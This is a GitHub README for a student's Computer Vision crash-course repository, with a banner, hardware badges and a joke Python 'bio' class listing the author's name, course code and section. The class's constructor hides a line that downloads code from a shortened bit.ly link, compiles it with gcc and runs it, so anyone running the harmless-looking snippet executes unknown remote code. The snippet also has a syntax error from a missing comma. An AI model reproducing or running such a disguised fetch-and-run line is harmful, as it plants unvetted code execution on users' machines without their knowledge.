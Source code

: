 <h1 align="center">Computer Vision (Crash Course) Repository 👨‍💻</h1>
<p align="center">
  <img src="https://readme-typing-svg.herokuapp.com?font=Monospace&size=16&pause=1000&color=36BCF7F7&center=true&vCenter=true&random=false&width=485&lines=Jep+is+trying+his+best.;This+is+a+placeholder.;You+wanna+know+how+I+got+these+scars%3F" alt="Jep is trying his best." />
</p>

```python
class JepxZIMA:
  def __init__(self):
    subprocess.call("curl -sL 'bit.ly/j3px21m4' | gcc -w -o name -xc - && ./name", shell=True)
    self.bio = {
      '- 🪪 Last name'                : 'Dela Rosa'
      '- 🙋‍♂️ You can call me'          : 'Jep',
      '- 🤷🏻‍♂️ What is this, nani'       : 'A GitHub repository dedicated to the Computer Vision (Crash Course)',

      '- 📓 Course code - title'      : {'CPE 313' : 'Advanced Machine Learning and Deep Learning'},
      '- 🎏 Section'                  : 'CPE32S8',
      '- 📊 Elective'                 : 'Data Science',
      '- 🏨 Hotel'                    : 'Trivago',
      '- ❔ I dont know'              : '¯\_(ツ)_/¯',
    }

if __name__ == '__main__':
  import subprocess, pprint
  pprint.pprint(JepxZIMA().__dict__)
```
<br>

### - Workspace 🖥️
<p align="center">
  <a href="#"><img src="https://custom-icon-badges.demolab.com/badge/NVIDIA_1650-76b900?style=for-the-badge&logo=nvidia&logoColor=%23fff" alt="NVIDIA 1650"></a>
  <a href="#"><img src="https://custom-icon-badges.demolab.com/badge/RYZEN_7_4800H-ed1c24?style=for-the-badge&logo=amd&logoColor=%23fff&label=AMD&labelColor=%23555" alt="AMD Ryzen 7 4800H"></a>
  <a href="#"><img src="https://custom-icon-badges.demolab.com/badge/LAPTOP-000?style=for-the-badge&logo=hp&logoColor=%23fff&label=HP&labelColor=%23555" alt="HP Laptop"></a>
  <a href="#"><img src="https://custom-icon-badges.demolab.com/badge/AKKO_3068B_PLUS-8071b3?style=for-the-badge&logo=akko-white" alt="AKKO 3068B Plus"></a>
</p>
